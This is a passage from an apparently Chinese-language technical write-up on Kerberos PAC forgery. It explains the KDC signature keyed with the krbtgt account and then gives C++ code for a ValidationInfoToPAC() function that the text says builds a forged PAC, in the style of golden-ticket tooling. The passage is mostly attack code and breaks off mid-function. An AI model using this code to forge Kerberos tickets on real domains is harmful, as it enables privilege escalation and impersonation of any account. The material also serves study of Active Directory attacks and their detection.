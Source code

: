 KDC 签名是 PAC 消息中服务器签名字段的密钥哈希，由 KDC 生成，并取决于 KDC 可用的加密算法。KDC 将使用 KDC 账户 Krbtgt 密钥，以便其他 KDC 在接收 PAC 时可以验证此签名。

### Generate PAC Type

了解上述知识后，我们开始伪造 PAC 结构，该过程被写在了 `ValidationInfoToPAC()` 函数中，如下所示。

```c++
BOOL ValidationInfoToPAC(PKERB_VALIDATION_INFO pValidationInfo, LONG SignatureType, PPACTYPE* pacType, DWORD* pacTypeSize)
{
    BOOL status = FALSE;
    PVOID pLogonInfo = NULL, pClaims = NULL;
    PPAC_CLIENT_INFO pClientInfo = NULL;
    PAC_SIGNATURE_DATA signatureData = { SignatureType, {0} };
    DWORD n = 4, szLogonInfo = 0, szLogonInfoAligned = 0, szClientInfo = 0, szClientInfoAligned, szSignature = FIELD_OFFSET(PAC_SIGNATURE_DATA, Signature), szSignatureAligned, offsetData = sizeof(PACTYPE) + 3 * sizeof(PAC_INFO_BUFFER);
    PKERB_CHECKSUM pCheckSum;

    // Get the implementation system of the specified verification algorithm.
    if (NT_SUCCESS(CDLocateCheckSum(SignatureType, &pCheckSum)))    
    {
        szSignature += pCheckSum->CheckSumSize;    // szSignature = 4 + pCheckSum->CheckSumSize
        // Align szSignature to 8 or its multiple.
        szSignatureAligned = SIZE_ALIGN(szSignature, 8);

        // Encrypt KERB_VALIDATION_INFO type data.
        if (EncodeValidationInformation(&pValidationInfo, &pLogonInfo, &szLogonInfo))
            // Align szLogonInfo to 8 or its multiple.
            szLogonInfoAligned = SIZE_ALIGN(szLogonInfo, 8);

        // Enter the GeneratePacClientInfo function to generate a PAC_CLIENT_INFO 
        // type buffer for PAC.
        if (GeneratePacClientInfo(&pValidationInfo->LogonTime, pValidationInfo->EffectiveName.Buffer, &pClientInfo, &szClientInfo))
            szClientInfoAligned = SIZE_ALIGN(szClientInfo, 8);

        if (pLogonInfo && pClientInfo)
        {
            *pacTypeSize = sizeof(PACTYPE) + 3 * sizeof(PAC_INFO_BUFFER) + szLogonInfoAligned + szClientInfoAligned + szSignatureAligned * 2;
            if (*pacType = (PPACTYPE)LocalAlloc(LPTR, *pacTypeSize))
            {
                (*pacType)->cBuffers = 4;
                (*pacType)->Version = 0;

                (*pacType)->Buffers[0].cbBufferSize = szLogonInfo;
                (*pacType)->Buffers[0].ulType = PACINFO_TYPE_LOGON_INFO;
                (*pacType)->Buffers[0].Offset = sizeof(PACTYPE) + 3 * sizeof(PAC_INFO_BUFFER);
                RtlCopyMemory((PBYTE)*pacType + (*pacType)->Buffers[0].Offset, pLogonInfo, szLogonInfo);

                (*pacType)->Buffers[1].cbBufferSize = szClientInfo;
                (*pacType)->Buffers[1].ulType = PACINFO_TYPE_CNAME_TINFO;
                (*pacType)->Buffers[1].Offset = (*pacType)->Buffers[0].Offset + szLogonInfoAligned;
                RtlCopyMemory((PBYTE)*pacType + (*pacType)->Buffers[1].Offset, pClientInfo, szClientInfo);

                (*pacType)->Buffers[2].cbBufferSize = szSignature;
                (*pacType)->Buffers[2].ulType = PACINFO_TYPE_CHECKSUM_SRV;
                (*pacType)->Buffers[2].Offset = (*pacType)->Buffers[1].Offset + szClientInfoAligned;
```